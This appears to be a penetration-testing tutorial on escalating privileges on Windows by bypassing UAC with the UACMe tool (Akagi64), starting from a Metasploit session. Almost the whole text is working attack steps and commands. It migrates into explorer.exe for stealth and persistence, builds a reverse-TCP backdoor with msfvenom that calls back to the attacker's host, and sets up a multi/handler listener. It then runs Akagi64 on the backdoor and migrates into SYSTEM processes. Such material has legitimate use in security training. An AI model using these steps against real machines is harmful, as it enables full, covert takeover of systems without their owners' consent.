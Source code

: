 UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.

There are multiple tools and techniques that can be used to bypass UAC. However, the tool and technique used will depend on the version of Windows running on the target system.

We can use UACMe tool from this Github repository: https://github.com/hfiref0x/UACME . This tool works for Windows from 7 to 10.

It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.

**There is a an exploit module in MSF that allows us to have a meterpreter session on a target that runs http: windows/http/rejetto_hfs_exec**

It is a good practice to switch to the explorer.exe process once we have a meterpreter session. This will provide us with stability, stealth and persistence. We do this by: `meterpreter> pgrep explorer` this will give us the process ID of explorer.exe. To switch to the explorer process by:`migrate (PID number)`

To make sure that the current user we logged in as is part of the administrators group, in a shell session, we do: `net localgroup Administrators`

If we see our username in the output, that means we can make changes after passing the UAC. However, we can't do that by using cmd.

In order to use UACMe tool, we will need to upload the compiled code of Akagi64 to the target host in directory Temp that we can create. 

After uploading the tool, we will need to create a backdoor payload to also upload it with it. This payload will allow us to have another meterpreter session on MSF with full privileges. 

To create the payload:`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(our IP address) LPORT=(port number) -f exe > backdoor.exe`

After uploading the payload that we created to directory Temp, we will need to start another MSF session in a new tab and use multi/handler and set the same options we sat for the backdoor payload:
```bash
>msf6 exploit(multi/handler)>set payload windows/meterpreter/reverse_tcp
>set LHOST (our IP address)
>set LPort (port number)
>run 
```

Since this is listening for a connection, we will need to run our payload file with Akagi64.exe.

On the host target, in a shell session:`.\Akagi64.exe 23 C:\Temp\backdoor.exe

After running that, we come back to the MSF that we ran, we will find that we have another meterpreter session into the target host with the same username. However, if we did:`getprivs`. We will have much more privileges than before.  

To list the processes: `ps` We will notice that most of the processes have the user as NT AUTHORITY\SYSTEM.  We can migrate to any of the Authority processes to have a shell session with full privileges. After we migrate to any of the Authority labelled processes, we can get a shell session.    

---
